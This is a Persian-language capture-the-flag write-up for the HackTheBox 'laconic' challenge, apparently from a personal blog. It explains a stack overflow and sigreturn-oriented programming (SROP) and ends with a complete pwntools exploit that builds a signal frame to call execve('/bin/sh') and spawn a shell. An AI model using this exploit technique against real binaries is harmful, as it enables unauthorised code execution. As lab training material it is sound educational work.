



---
tags:
    - srop 
    - buffer_overflow 
    - BOF 
    - HTB 
    - hackthebox2025 
    - sigframe 
    - sigreturn 
    - syscall
---

# laconic

در این چالش با مفهوم **SROP** آشنا می‌شویم و درک می‌کنیم که چگونه میتوان از سیستم‌کال **sigreturn** به درستی و در جهت اکسپلویت برنامه استفاده کرد.

> **توجه:** در این رایتاپ از بیان مفاهیم پایه‌ای خودداری شده و تنها ارجاعاتی به منابع دیگر داده شده. پس اگر به طور مثال با مفهوم ROP آشنا نیستید می‌توانید به کانال تلگرامی زیر یا سایر منابع موجود در سطح اینترنت مراجعه کنید.

```
t.me/0xAA55
```

## تحلیل اولیه فایل

در ابتدا مثل همیشه از دستور `file` و `checksec` استفاده می‌کنیم تا متوجه شویم که با چه فایلی و برای چه معماری و با چه اقدامات کاهشی روبه‌رو هستیم.

<center>

*خروجی دستورات file و checksec*
</center>

## تحلیل Static با Ghidra

پس از آن برنامه را با **ghidra** بررسی می‌کنیم و تحلیل static را آغاز می‌کنیم.

<center>

*تحلیل static برنامه در Ghidra*
</center>

همانطور که مشاهده می‌کنید تنها تابع موجود در این برنامه `start_` است و قرار است که یک سیستم‌کال صورت بگیرد.

### بررسی سیستم‌کال

اگر دقت کنید می‌بینید که **rax** مقداردهی نشده و در نتیجه احتمال می‌دهیم که مقدار اولیه آن صفر بوده و از آنجایی که این باینری برای معماری **x64** است؛ قصد فراخوانی تابع `read` را دارد ولی برای اطمینان از **gdb** استفاده کرده و دقیق‌تر آن را بررسی می‌کنیم.

<center>

*بررسی برنامه با GDB*
</center>

## تحلیل عملکرد

در هنگام اجرای دستورالعمل `syscall` مقدار **rax** صفر است پس با اطمینان می‌توان گفت که سیستم‌کال `read` در حال فراخوانی شدن است.

### آرگومان‌های تابع read

همانطور که می‌دانید آرگومان‌های تابع `read` از طریق `rdi`, `rsi`, `rdx` در معماری x64 به سمت آن پاس داده خواهند شد:

- **rdi = 0**: ورودی (stdin)
- **rdx = 0x106**: تعداد بایت‌های قابل خواندن
- **rsi = rsp - 8**: مکان ذخیره‌سازی در استک

### کنترل RIP

از آنجایی که در هنگام اجرای دستورالعمل `ret` مقدار بالای استک **pop** شده و در رجیستر **rip** قرار می‌گیرد، متوجه می‌شویم که بعد از ارسال **8 بایت** داده به عنوان filler یا padding، می‌توانیم مقدار رجیستر **rip** را تغییر داده و روند اجرایی برنامه را در دست بگیریم.

## جستجوی ROP Gadgets

حال برای اینکه **ROP** خود را به سرانجام برسانیم نیاز داریم تا از **ROPgadget** کمک گرفته و gadget‌های در دسترس را برای اکسپلویت کردن برنامه بررسی کنیم.

<center>

*gadget‌های ROP موجود در برنامه*
</center>

## استفاده از SROP

با توجه به محدودیت‌های موجود:

- **gadget‌های در دسترس بسیار کم هستند**
- **توانایی کنترل کردن rdi** را نداریم (آرگومان ابتدایی سیستم‌کال‌ها)
- **فضای کافی** برای ساخت signal frame داریم (حداقل 200 بایت)

یکی از گزینه‌های موجود **سیستم‌کال sigreturn** است.

### ساخت Signal Frame

به منظور کارکرد صحیح این سیستم‌کال با استفاده از تابع `SigreturnFrame` موجود در **pwntools**، signal Frame مورد نیاز را تشکیل داده و رجیستر‌ها را به طور دلخواه مقداردهی می‌کنیم.

### مراحل اکسپلویت

1. **Pad کردن 8 بایت ابتدایی استک**
2. **استفاده از gadget‌های pop rax و syscall**
3. **مقداردهی rax با مقدار 15** (شماره سیستم‌کال sigreturn)
4. **ارسال مقادیر مرتبط** با توجه به جایگاه هر رجیستر در signal frame

### مزیت عدم فعال بودن PIE

خبر خوب این است که **PIE** این باینری فعال نبوده و در نتیجه آدرس gadget‌های موجود، پس از هر بار اجرای برنامه تغییر نخواهند کرد و در نتیجه نیازی به **leak** گرفتن از برنامه نیست.

<center>

*لحظه قبل از اجرای syscall*
</center>

<center>

*لحظه بعد از اجرای syscall*
</center>

## نتیجه نهایی

لحظه‌ای قبل و پس از اجرای دستورالعمل `syscall` را مشاهده می‌کنید. اما همچنان به نظر می‌رسد که روی این دستورالعمل باشیم. دلیل آن این است که در مرحله قبل و در **sigframe** ذکر کرده بودیم که **rip** روی این آدرس خاص که در آن دستورالعمل `syscall` وجود دارد تنظیم شود.

### رشته /bin/sh

یکی از مواردی که باید در این قسمت به آن دقت کنید **رشته `/bin/sh`** است که آدرس آن در رجیستر **rdi** قرارگرفته. این رشته از قبل در برنامه وجود داشت و با استفاده از دستور `strings` می‌توانید آن را مشاهده کنید و برای به دست آوردن آدرس دقیق آن از **ghidra** یا **gdb** کمک بگیرید.

بعد از اجرای مجدد `syscall` و فراخوانی تابع `execve` دسترسی ما به **shell** فراهم خواهد شد!

## کد اکسپلویت

```python
from pwn import *

p = process('./laconic')
#p = remote('94.237.58.78', 51484)

ret = 0x43017
pop_rax = 0x43018
syscall = 0x0000000000043015
binsh = 0x43238

frame = SigreturnFrame(arch='amd64')
frame.rax = 59      # شماره سیستم‌کال execve
frame.rdi = binsh   # آدرس رشته /bin/sh
frame.rsi = 0       # argv
frame.rdx = 0       # envp
frame.rsp = 0xdeadbeef
frame.rip = syscall

pay = b'A' * 8 + p64(pop_rax) + p64(0xf) + p64(syscall) + bytes(frame)

p.send(pay)
p.interactive()
p.close()
```

<center>

*دسترسی نهایی به shell*
</center>

---

## تماس

در صورت داشتن هرگونه سوال یا انتقاد و پیشنهاد به آیدی من در تلگرام (**@r0pp3r**) یا دیسکورد (**@nim0x2a**) می‌توانید پیام دهید.

